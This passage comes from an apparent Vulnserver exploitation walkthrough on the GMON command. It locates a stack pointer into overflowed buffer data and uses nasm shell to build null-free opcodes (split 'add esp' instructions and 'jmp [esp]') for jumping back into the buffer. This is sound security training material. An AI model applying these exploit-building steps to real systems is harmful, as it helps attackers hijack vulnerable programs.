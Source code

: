 Looks like we have two pointers pointing us towards ths buffer data in stack, which is matached by the pattern

Analysing the hexdump of the pointer address, ```esp + 0xdc``` to confirm the buffer data

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-2-stackdata.png">
</div>

If we use this pointer, we will be in our buffer data past ```1548 bytes```

Now we should perform a long jump of 1548 bytes from this point (one step past short jump)

Creating opcodes to perform long jump via ```nasm shell```,

```c
nasm > add esp, 0xdc
00000000  81C4DC000000      add esp,0xdc
```

Injecting ```null byte``` inside a shellcode will break the exploit, since it is a ```bad character```

Breaking it into smaller operations,

```c
>>> 0x6e+0x6e
220
>>> hex(0x6e+0x6e)
'0xdc'
```

Since ```0xdc == 0x6e + 0x6e```, we can make our opcodes like this

```
nasm > add esp, 0x6e
00000000  83C46E            add esp,byte +0x6e
nasm > add esp, 0x6e
00000000  83C46E            add esp,byte +0x6e
nasm > jmp [esp]
00000000  FF2424            jmp [esp]
nasm > 
```
